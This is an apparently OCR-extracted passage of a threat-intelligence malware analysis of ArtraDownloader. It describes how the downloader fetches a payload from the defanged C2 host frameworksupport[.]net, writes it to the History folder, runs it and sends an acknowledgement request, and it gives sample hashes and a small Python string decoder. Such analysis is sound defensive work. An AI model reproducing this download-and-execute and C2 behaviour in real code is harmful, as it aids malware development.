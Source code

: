 AXE: #wscspl#
SIZE: ##
In this response, the data between the # is parsed, and a subsequent request is made. Should this information be present in the response, the malware will query the CSIDL_HISTORY folder, which represents the file system directory that serves as a common repository for Internet history items. This path has the string ZX appended to it, followed by the filename used in the HTTP response, which in our example was wscspl. An example of this is as follows:
C:\Users\[username]\AppData\Local\Microsoft\Windows\HistoryZXwscspl
The HTTP request for data that will be supplied to this newly formed file path is as follows:
GET /ergdfbd/wscspl HTTP/1.1
Host: frameworksupport[.]net
Connection: Close
The entire HTTP response is written to the previously described file path. ArtraDownloader will then parse this entire HTTP response’s POST data, extracting everything at offset 0x1 to a file path without the ZX characters, and with the .exe extension. Using our previous example, this file would be the following:
C:\Users\[username]\AppData\Local\Microsoft\Windows\Historywscspl.exe
The previously written file containing ZX in the path is removed. Finally, this file is executed in a new process. If this executable is spawned without errors, the malware will send the following example final HTTP request:
GET /ourtyaz/dwnack.php?cId=214cf8g5.cgc9.51gb.914d.f17ceg%3ae4cc7 HTTP/1.1
Host: frameworksupport[.]net
Connection: Close
ArtraDownloader Malware Analysis – Variant 3
For the remainder of the analysis, the following file is used:



MD5
a1bdb1889d960e424920e57366662a59


SHA1
177837d0fa5bfd274abe79d80a01cfe2374b4cd9


SHA256
f0ef4242cc6b8fa3728b61d2ce86ea934bd59f550de9167afbca0b0aaa3b2c22


Compile Timestamp
2018-07-30 09:18:37 UTC


PDB String
d:\C++\new_downloader_aroundtheworld123\Release\audiodq.pdb



Table 4 ArtraDownloader Variant 3 Sample
Upon execution, the malware begins by decoding a series of strings via a simple decoding routine. The following Python script may be used to decode strings belonging to this cluster:
def decode(data):
out = ""
for d in data:
out += chr((ord(d)-13)&0xFF)
return out
 